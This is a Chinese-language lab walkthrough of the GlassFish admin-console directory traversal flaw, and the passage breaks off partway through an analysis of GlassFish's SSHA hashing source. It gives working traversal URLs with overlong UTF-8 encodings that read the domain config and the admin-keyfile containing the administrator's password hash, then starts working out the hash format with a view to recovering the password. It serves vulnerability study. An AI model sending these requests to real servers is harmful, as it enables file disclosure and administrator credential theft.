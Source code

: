 <br>

**文件读取漏洞利用**



漏洞原理与利用方法 [https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904](https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904) 。利用该目录穿越漏洞，可以列目录以及读取任意文件：

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/domains/domain1/config
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/domains/domain1/config/admin-keyfile
```

[![](./img/85948/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.leavesongs.com/media/attachment/2017/04/23/b7cb8c56-f960-4cc6-b82b-0d5585ea6839.jpg)

glassfish/domains/domain1/config/admin-keyfile是储存admin账号密码的文件，如上图，我们通过读取这个文件，拿到超级管理员的密码哈希。（说明一下，这个测试环境启动前，我通过修改docker-compose.yml，将超级管理员的密码改为了123456）

<br>

**密码加密方式？**



可见，我们读到的密码是一串base64编码后的字符串，并且得到一个关键字：ssha256，这种“加密”方法可能和sha256有关。但，使用echo strlen(base64_decode(…));这个方式将上述base64字符串解码后测量长度，发现长为40字节。

我们知道，常见的哈希算法，md5长度为16字节，sha1长度为20字节，sha256长度为32字节，sha512长度为64字节，并没有长度为40字节的哈希算法呀？

很明显，SSHA256里应该掺杂有其他字符。

所以，我们需要研究研究GlassFish源码。官网有SVN，但下载速度太慢。我们可以上Github下载打包好的源码 [https://github.com/dmatej/Glassfish/archive/master.zip](https://github.com/dmatej/Glassfish/archive/master.zip) （不过这个源码比较老了）

下载以后发现，压缩包竟然都有1个多G，在如此大的代码中，找一个哈希算法，真的不容易。不过在费尽千辛万苦后我还是找到了负责计算哈希的类：SSHA。

[https://github.com/dmatej/Glassfish/blob/master/main/nucleus/common/common-util/src/main/java/org/glassfish/security/common/SSHA.java](https://github.com/dmatej/Glassfish/blob/master/main/nucleus/common/common-util/src/main/java/org/glassfish/security/common/SSHA.java)

这个类有两个比较重要的方法，encode和compute。compute负责对明文进行哈希计算，encode负责将前者的计算结果编码成base64。

<br>

**encode函数分析**



先从简单的来，encode函数：

```
public static String encode(byte[] salt, byte[] hash, String algo){       
    boolean isSHA = false;
    if (algoSHA.equals(algo)) {
        isSHA = true;
    }
    if (!isSHA) {
        assert (hash.length == 32);
    } else {
        assert (hash.length == 20);
    }
    int resultLength = 32;
    if (isSHA) {
        resultLength = 20;
    }
    byte[] res = new byte[resultLength+salt.length];
    System.arraycopy(hash, 0, res, 0, resultLength);
    System.arraycopy(salt, 0, res, resultLength, salt.length);
    GFBase64Encoder encoder = new GFBase64Encoder();
    String encoded = encoder.encode(res);
```